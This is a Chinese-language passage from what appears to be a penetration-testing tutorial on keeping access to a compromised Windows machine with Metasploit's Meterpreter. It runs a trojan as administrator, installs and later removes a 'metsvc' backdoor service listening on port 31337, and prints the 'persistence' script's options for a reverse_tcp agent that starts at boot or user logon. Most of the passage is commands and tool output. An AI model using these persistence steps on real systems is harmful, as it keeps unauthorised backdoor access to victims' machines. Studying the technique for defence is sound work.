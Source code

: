 [*] Started bind handler
三个文件上传成功，失败是由于服务没有启动起来，难不成用户权限低？！

QQ20180112-151049@2x.png

右键木马 shell.exe 以管理员权限运行，重新拿到 Meterpreter 会话，重新执行 run metsvc -A；

meterpreter > run metsvc -A

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...][*] Creating a meterpreter service on port 31337
[*] Creating a temporary installation directory C:\Users\Go0s\AppData\Local\Temp\WYPiyqkOsJZS...
[*] >> Uploading metsrv.x86.dll...
[*] >> Uploading metsvc-server.exe...
[*] >> Uploading metsvc.exe...
[*] Starting the service... \* Installing service metsvc

- Starting service
  Service metsvc successfully installed.
  服务成功开启，session -k 杀掉会话，利用 handler 下的 windows/metsvc_bind_tcp，没多久重新上线；

不过官方都不推荐使用了，自然有缺陷；

移除服务；

meterpreter > run metsvc -r

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...][*] Removing the existing Meterpreter service
[*] Creating a temporary installation directory C:\Users\Go0s\AppData\Local\Temp\KRUyRiAody...
[*] >> Uploading metsvc.exe...
[*] Stopping the service... \* Stopping service metsvc

- Removing service
  Service metsvc successfully removed.
  persistence
  首先查看帮助信息，发现官方也不推荐了，不过仍然很好用；

meterpreter > run persistence -h

[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
Meterpreter Script for creating a persistent backdoor on a target host.

OPTIONS:

    -A        Automatically start a matching exploit/multi/handler to connect to the agent
    -L <opt>  Location in target host to write payload to, if none %TEMP% will be used.
    -P <opt>  Payload to use, default is windows/meterpreter/reverse_tcp.
    -S        Automatically start the agent on boot as a service (with SYSTEM privileges)
    -T <opt>  Alternate executable template to use
    -U        Automatically start the agent when the User logs on
    -X        Automatically start the agent when the system boots
    -h        This help menu
    -i <opt>  The interval in seconds between each connection attempt
    -p <opt>  The port on which the system running Metasploit is listening
    -r <opt>  The IP of the system running Metasploit listening for the connect back


[go0s]: ~